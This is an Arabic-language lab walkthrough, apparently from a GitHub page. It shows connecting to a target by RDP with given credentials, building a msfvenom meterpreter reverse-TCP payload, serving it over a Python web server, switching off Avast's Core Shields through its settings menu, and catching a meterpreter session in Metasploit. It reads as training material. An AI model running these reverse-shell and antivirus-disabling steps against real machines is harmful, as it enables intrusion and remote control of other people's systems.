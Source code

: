 خلونا الان نتصل بالتارقت عن طريق الـ RDP  
```bash
rdesktop -u aline -p soccer 172.16.5.10  
```  
نشوف انه الان فتح لنا تمام  

طبعا نشوف الـ Antiviruses بسطح المكتب  

طيب خلونا لان نسوي لنا reverse TCP payload  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe > rTCP.exe  
file rTCP.exe  
```  
نشوف انه سوينا البايلود تمام  

خلونا الان نفتح بايثون سيرفر وننقل الملف عشان نشوف كيف الانتي فايروس يقفطه  
```bash
python3 -m http.server 80  
```  

خلونا الان نفتح ليسنر  
```bash
msfconsole -q  
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set LPORT 4444  
set LHOST 172.16.5.101  
exploit  
```  
حلو الان فتحنا الليسنر خلونا الان نروح لتارقت ونفتح الفايرفوكس ونحمل الملف عن طريق الرابط  
```bash
http://172.16.5.101/rTCP.exe  
```  
ونسوي save file  

الان نشوف انه رفض يحمل الملف قالنا Failed  
الان عرفنا ان الـ Antiviruse had detected and blocked the malicious file  

خلونا نفتح الانتي فايروس الان ونشوف وش يظهر لنا  
[detected](https://i.ibb.co/kDqwYk3/9-2.png)  

خلونا الان نقفل الانتي فايروس من السهم الي تحت يمين  
[disable_the_Avast_AV](https://i.ibb.co/kH909bm/10.png)  

الان نرجع لسطح المكتب ونفتح الـ Avast  
نشوف فوق يمين فيه Menu نضغطها  
بعدين نختار Settings  
بعدين نختار Protection  
بعدين نختار Core Shields  
ونقفل اول زر الي هو Core Shields  
راح تطلع لنا نافذه ونختار Until I turn it on again  
بعدين نضغط Ok, STOP  
نلاحظ الان ان الزر صار بالاحمر يعني قفلناه  

الان خلونا نرجع للفايرفوكس ونحاول نحمل البايلود  
نشوف انه تحمل تمام نسوي له Run  

الان نرجع للـ msfconsole  
ونشوف انه فعلا جانا meterpreter session  
خلونا ننفذ بعض الاوامر مثل  
```bash
sysinfo  
execute -f calc.exe [to launch a calculator]  
```  
الان لو نرجع لتارقت بنشوف انه فتح لنا الالة الحاسبة  

